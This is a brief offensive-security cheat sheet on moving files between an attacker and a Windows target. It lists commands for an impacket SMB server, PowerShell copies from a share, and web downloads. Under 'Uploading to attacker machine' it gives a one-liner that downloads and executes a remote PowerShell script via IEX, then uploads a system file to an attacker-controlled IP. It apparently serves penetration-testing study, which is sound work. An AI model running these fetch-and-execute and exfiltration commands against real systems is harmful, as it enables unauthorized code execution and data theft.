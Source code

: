 # Links to CheatSheets
https://guide.offsecnewbie.com/transferring-files


# SMB Server
```bash
impacket-smbserver share_name /path/to/share
```
copy files
```powershell
Copy-Item -Path "\\10.10.10.10\test\file.txt" -Destination "C:\destination\file.txt"
copy "\\10.10.10.10\test\file.txt"   "C:\destination\file.txt"
```

# Web
```bash
Invoke-WebRequest -Uri $url -OutFile $outputPath
```

## Uploading to attacker machine
```bash
py -m uploadserver
```
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```